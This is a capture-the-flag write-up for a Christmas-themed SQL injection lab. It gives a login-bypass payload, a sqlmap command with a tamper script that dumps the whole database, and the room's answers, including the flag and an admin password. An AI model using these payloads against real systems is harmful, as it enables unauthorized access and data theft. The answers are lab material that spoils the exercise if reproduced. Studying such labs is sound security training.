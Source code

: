 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2855%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%285%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2832%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2850%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2814%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2837%29.png)

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2819%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2851%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%281%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

